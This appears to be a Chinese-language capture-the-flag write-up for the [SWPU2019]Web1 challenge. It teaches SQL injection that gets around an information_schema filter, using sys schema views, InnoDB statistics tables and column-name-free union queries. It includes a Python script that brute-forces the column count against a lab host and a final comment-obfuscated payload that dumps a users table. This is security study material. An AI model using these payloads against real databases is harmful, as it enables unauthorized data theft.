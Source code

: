 # \[SWPU2019]Web1

## \[SWPU2019]Web1

## 考点

* bypass information\_schema
* 无列名注入

## 题解

### bypass information\_schema

information\_schema 在mysql中就是个信息数据库，它保存着mysql服务器所维护的所有其他数据库的信息，包括了数据库名，表名，字段名等。

在注入中，infromation\_schema 库的作用无非就是可以获取到 table\_schema,table\_name,column\_name这些数据库内的信息。

mysql在5.7版本中新增了sys schemma，基础数据来自于performance\_chema和information\_schema两个库，本身数据库不存储数据

注：innoDB引擎也可以绕过对information\_schema的过滤，但是mysql默认是关闭InnoDB存储引擎的

如果在设计表时，给每个表加一个自增的id字段，那么就可以使用这种方法

首先，<mark style="background-color:orange;">schema\_auto\_increment\_columns</mark>，该视图的作用简单来说就是用来对表自增ID的监控。那么我们可以通过该视图获取数据库的表名信息

<mark style="background-color:orange;">如何获取没有自增主键的表的数据，这就要用到schema\_table\_statistics\_with\_buffer和x$schema\_table\_statistics\_with\_buffer</mark>

限制：\
mysql ≥ 5.7版本\
要超级管理员才可以访问sys

```
select group_concat(table_name) from sys.schema_auto_increment_columns where table_schema=database();

select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()；
```

### 使用innoDB引擎绕过information\_schema

* 表引擎为 innoDB
* MySQL > 5.5
* innodb\_table\_stats、innodb\_index\_stats存放所有库名表名
* select table\_name from mysql.innodb\_table\_stats where database\_name=库名;

### 第三种姿势

* 爆库名 select 1,2,3 from users where 1=abc();
* 爆表名 select 1,2,3 from users where Polygon(id);
* 爆表名 select 1,2,3 from users where linestring(id);
* 爆字段名 select 1,2,3 from users where (select \* from (select \* from users as a join users as b)as c);
* 爆字段名 select 1,2,3 from users where (select \* from (select \* from users as a join users as b using(id))as c);

### 无列名注入

用数字表示对应的列

```
SELECT `2` FROM (SELECT 1,2,3 UNION SELECT * FROM users)a;
```

当反引号不能使用时，就可以使用别名

```
SELECT b FROM (SELECT 1,2 as b,3 UNION SELECT * FROM users)a;
SELECT c FROM (SELECT 1,2,3 c UNION SELECT * FROM users)a;
```

利用 join 报错来获取列名，分别获取第一个列和第三个列

```
select * from (select * from users as a join users b)c;
select * from (select * from users as a join users b using(id,username))c;
```

## wp

上面说的三种姿势都不行。

首先，发现过滤了or，空格，information\_schema，#

POST数据，提示为 The used SELECT statements have a different number of columns

```
title=a'/**/union/**/select/**/1,2,3,4'&content=aaaaaaa&ac=add
```

写个脚本爆破一下有多少列，结果为22列，显示位在2，3位

```python
import requests

url_login = 'http://ec4c1a73-6f76-4f8c-997e-cb4a046191b3.node3.buuoj.cn/login.php'
url_add = 'http://ec4c1a73-6f76-4f8c-997e-cb4a046191b3.node3.buuoj.cn/addads.php'
url_detail = 'http://ec4c1a73-6f76-4f8c-997e-cb4a046191b3.node3.buuoj.cn/detail.php?id='

#payload = "a'/**/union/**/select/**/1"
#payload = "a'/**/union/**/select/**/1,2,3,4,5,6,7,8,9"
payload = "a'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19"

s = requests.Session()

login_data = {
    'username': 'testtest',
    'password': 'test',
    'ac': 'login'
}

s.post(url=url_login, data=login_data)

#for i in range(1, 10):
#for i in range(10, 20):
for i in range(20, 30):
    payload = payload + ',' + str(i)
    
    payload_data = {
        'title': payload + "'",
        'content': '123',
        'ac': 'add'
    }
    
    s.post(url=url_add, data=payload_data)
    
for i in range(2,90):
    r = s.get(url=url_detail+str(i))
    if 'The used SELECT' in r.text :
        print(i)
```

语句为

```
a'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

这里进行无列名注入，查询users表进行无列名注入，查询第一列语句如下

```
select group_concat(a) from (select 1 as a,2 as b,3 as c union select * from users)x
```

在本题最终bypass语句如下

```
a'/**/union/**/select/**/1,(select/**/group_concat(c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```
